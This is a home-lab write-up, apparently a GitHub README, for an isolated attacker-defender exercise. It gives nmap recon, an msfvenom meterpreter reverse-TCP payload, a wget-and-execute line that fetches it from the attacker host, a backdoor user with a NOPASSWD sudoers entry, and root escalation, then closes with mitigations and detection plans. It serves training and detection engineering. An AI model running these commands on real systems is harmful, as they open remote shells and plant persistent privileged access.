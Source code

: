 ATTACKER-DEFENDER LAB

Author: Bobo Nikolov
Date: 27-10-2025
Status: In Progress (Defender / SecurityOnion phase next)


---


- Objective
Build isolated attacker <> victim lab to demonstrate reconnaissance, initial access, execution, persistence, and privilege escalation — then add a defender (SecurityOnion) to capture telemetry and create detections.

- Architecture and Scope
"lab_attacker" - Kali Linux(Internal Network(labnet)/NAT)IP 10.10.10.10
"lab_victim" - Ubuntu Linux(Internal Network(labnet)/Internal Network(intnet))IP 10.10.10.20
"Network" - Internal Network only(Isolated)
"Snapshot" - Created before testing and reverted again for repeatability.

NOTE: All work is performed on my VM's only!


---


  ENUMERATION 
  
(In linux terminal)Run:
nmap -sS -sV 10.10.10.20
'evidence/2025-10-27_05-52_AM_Screenshot_Enumeration_ .png'


---


  INITIAL ACCESS AND EXECUTION

 - Summary
Created a small Linux meterpreter ELF payload on attacker host, served it via HTTP server, fetched and executed it on the victim, then handled the incoming meterpreter session from Metasploit.

 - Artifacts / screenshots
Payload creation: 'evidence/2025-10-27_15-32-08_Payload_Creation_Initial_Access_Execution.png'
Serving payload: 'evidence/2025-10-27_15-38-08_Serving_Payload_Initial_Access_Execution.png'
Payload downloaded on victim: 'evidence/2025-10-27_15-42-04_Payload_On_Victim_Initial_Access_Execution.png'
Exploit/run and handler: 'evidence/2025-10-27_15-47-45_Exploit_Run_And_Waiting_Initial_Access_Execution.png'
Successful execution(meterpreter/shell proof)- 'evidence/2025-10-27_15-58-31_Successful-Execution_Initial-Access-Execution.png'

 - What I did
Generated a Linux ELF reverse-TCP payload on the attacker:
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -O shell32.elf

 - Served the payload from attacker
python3 -m http.server 8000 --bind 10.10.10.10

 - On the victim fetched and executed it 
wget http://10.10.10.10:8000/shell32.elf -O /tmp/shell && chmod +x /tmp/shell

 - Started a multi handler on Metasploit
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST 10.10.10.10
set LPORT 4444


---


   PERSISTANCE
   
 - Summary
To demonstrate persistance detection and to create realistic defender telemetry for the upcoming SecurityOnion phase, a benign backdoor user was created and a sudoers entry added. All were documented and snapshot was reverted.

 - Artifacts / Screenshots
-Persistance (new user created): 'evidence/2025-10-27_17-59-25_Persistance-New-User_Persistance.png'

 - Commands Executed
sudo useradd -, -s /bin/bash backdoor_user //Creating a new user
echo 'backdoor_user:P@ssword123!' | sudo chpasswd //Setting a password

// Add sudoers entry (NOPASSWD) to simulate privilege-capable persistence

echo 'backdoor_user ALL=(ALL) NOPASSWD:ALL' | sudo tee /etc/sudoers.d/backdoor_user
sudo chmod 440 /etc/sudoers.d/backdoor_user


---


   PRIVILEGE ESCALATION
   
 - Summary
After intitial access, local privilege escalation was demonstrated - minimal proof (whoami / id) captured to validate root access. This was performed only to verify impact for detection engineering.

 - Artifact / Screenshot
-Privilege escalation(root obtained): 'evidence/2025-10-27_18-49-33_Privilege-Escalation.png'

 - Proof commands / notes
// From the interactive shell on meterpreter > shell
whoami
id

//In some cases a known local vector was used and 'sudo /bin/bash' or similar verified root:
sudo /bin/bash
whoami //lead to root


---


   CONCLUSION

This lab demonstrated a complete attacker workflow in an isolated environment: reconnaissance, payload creation and delivery, successful remote code execution, a persistence demonstration, and local privilege escalation (proof-of-concept). The aim was not to cause damage but to produce realistic telemetry and artifacts that a defender can use to tune detections and playbook responses.

The environment was fully isolated and snapshotted before testing; all changes were reverted after evidence capture. This project serves as a foundation for the defender phase (SecurityOnion), where I will ingest network and host telemetry and author detection rules.


---


   LESSION'S LEARNED AND MITIGATION

  Takeaways
  
- Simple file-download + execute flows are a high-risk vector (e.g. `wget` + `chmod` + run). Prevent by restricting outbound HTTP to unapproved hosts and enforcing execution policies.
- Creation of sudoers/NOPASSWD entries is a common persistence pattern — monitor `/etc/sudoers.d/` and user creation events.
- Local privilege escalation vectors (SUID binaries, misconfigured services) remain a rapid path to full compromise — remove unnecessary SUID/privileged binaries and harden kernel/service updates.

  Recommended mitigation
  
- Block unneeded inbound services; harden public-facing services.
- Enforce least privilege and MFA for administrative access.
- Instrument hosts with sysmon/auditd and forward to your SIEM; create alerts for: unexpected `wget`/`curl` + `chmod +x`, new `/etc/sudoers.d/` files, and new user creation.
- Add network egress restrictions to limit direct payload fetch from attacker-controlled HTTP servers.


---


  Next steps (roadmap)

- SecurityOnion integration (planned): deploy sensor/manager, ingest Zeek/Suricata logs, simulate the attack again, and capture detection telemetry.  
- Detection engineering: write Sigma/Suricata rules and Splunk/SO correlation searches for this scenario.  
- Lateral movement (optional): expand the lab to include a second internal host to demonstrate lateral movement and network-based detection. (WIP — planned for next iteration)


---


  Appendix – Commands & Artifacts

Important commands used (sanitized)

```bash
# Recon
nmap -sS -sV 10.10.10.20

# Payload creation
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell32.elf

# Serve payload
python3 -m http.server 8000 --bind 10.10.10.10

# Victim (lab-only)
wget http://10.10.10.10:8000/shell32.elf -O /tmp/shell && chmod +x /tmp/shell && /tmp/shell

# Persistence (lab-only)
sudo useradd -m -s /bin/bash backdoor_user
echo 'backdoor_user:Password123!' | sudo chpasswd
echo 'backdoor_user ALL=(ALL) NOPASSWD:ALL' | sudo tee /etc/sudoers.d/backdoor_user
sudo chmod 440 /etc/sudoers.d/backdoor_user



